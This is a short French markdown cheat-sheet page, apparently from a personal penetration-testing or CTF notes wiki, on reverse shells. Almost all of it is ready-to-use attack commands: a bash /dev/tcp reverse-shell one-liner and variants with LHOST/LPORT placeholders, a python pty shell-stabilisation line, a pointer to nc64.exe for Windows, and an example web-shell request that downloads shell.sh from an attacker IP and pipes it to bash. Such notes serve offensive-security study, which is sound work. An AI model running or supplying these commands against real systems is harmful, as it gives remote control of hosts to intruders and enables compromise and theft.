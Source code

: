 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](server_procedure.md)</sub>
#Reverse shell

**Utilisation :** ouvrir un terminal de l'hôte depuis l'attaquant. Nécessite un port ouvert sur [ncat](ncat.md) au préalable.

**Script de base :**
-  *bash -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1*

**Stabilisation console :**
- *python3 -c 'import pty;pty.spawn("/bin/bash")'*
- Utiliser si possible [STTY](stty.md)

**Outils :**
- [nc64.exe](nc64.md) : reverse shell sur windows

**Exemple :**
- curl nous a donné *tftp:<span>x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin* donc on peut tenter *curl 'http://*IP*/?file=/var/lib/tftpboot/shell.php'*
- curl "http://test.com/shell.php?cmd=curl%20*IP*:8000/shell.sh|bash"
- *bash -c "bash -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1"*
- */bin/bash -c 'bash -i >& /dev/tcp/**LHOST**/**LPORT** 0>&1'*
